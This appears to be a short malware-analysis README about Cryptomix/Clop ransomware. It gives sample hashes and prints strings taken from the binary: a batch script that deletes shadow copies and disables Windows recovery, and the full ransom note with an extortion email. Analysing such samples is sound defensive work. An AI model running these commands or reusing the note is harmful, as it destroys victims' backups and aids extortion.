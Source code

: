 # cryptomix-clop-ransomware

Cryptomix Ransomware Mal Helper

Packed Digital Signed Crypted Bin:
```SHA-256: 10f4be34c2e41e6c2d4932ab77f189cf5da659abd028537604eae6435c83516a```
Unpacked Ransomware Bin:
```SHA-256: 79b8c37a5e2a32e8f7e000822cec6f2f4e317620a2296f1aa3f35b2374c396ec```
Reference: https://twitter.com/malwrhunterteam/status/1098578106112245760

```bytearray(b'@echo off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded\r\nvssadmin Delete Shadows /all /quiet\t\t\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /set {default} bootstatuspolicy ignoreallfailures\t ')```

```bytearray(b'!Your networks has been penetrated!\r\nAll files on each host in the network have been encrypted with a strong algorithm!!!\r\nBackups were either encrypted or deleted or backup disks were formatted!!!\r\nShadow copies also removed, so F8 or any other methods may damage encrypted data but not recover!!!\r\nWe exclusively have decryption software for your situation.\r\nNo DECRYPTION software is AVAILABLE in the PUBLIC.\r\n* DO NOT DELETE readme files.\r\n* DO NOT RENAME OR MOVE the encrypted and readme files.\r\n* DO NOT RESET OR SHUTDOWN \xe2\x80\x93 files may be damaged.\r\n!!!THIS MAY LEAD TO THE IMPOSSIBILITY OF RECOVERY OF THE CERTAIN FILES!!!\r\n!!!ALL REPAIR TOOLS ARE USELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY!!!\r\nIf you want to restore your files write to emails. \r\n[CONTACTS ARE AT THE BOTTOM OF THE SHEET] and attach 2 - 3 encrypted files.\r\n[Less than 6 Mb each, non-archived and your files should not contain valuable information\r\n[Databases, backups, large excel sheets, etc.]]!\r\n!!You will receive decrypted samples and our conditions how to get the decoder!!!\r\n\r\n***ATTENTION***\r\n!!!YOUR WARRANTY  -  DECRYPTED SAMPLES!!!\r\nDO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE!!!\r\nWE DON`T NEED YOUR FILES AND YOUR INFORMATION!!!\r\n\r\nContacts E-MAIL: \r\nunlock@eqaltech.su \r\n\r\n***THE FINAL PRICE DEPENDS ON HOW FAST YOU WRITE TO US***\r\n===Nothing personal just business===  Clop^_-')```
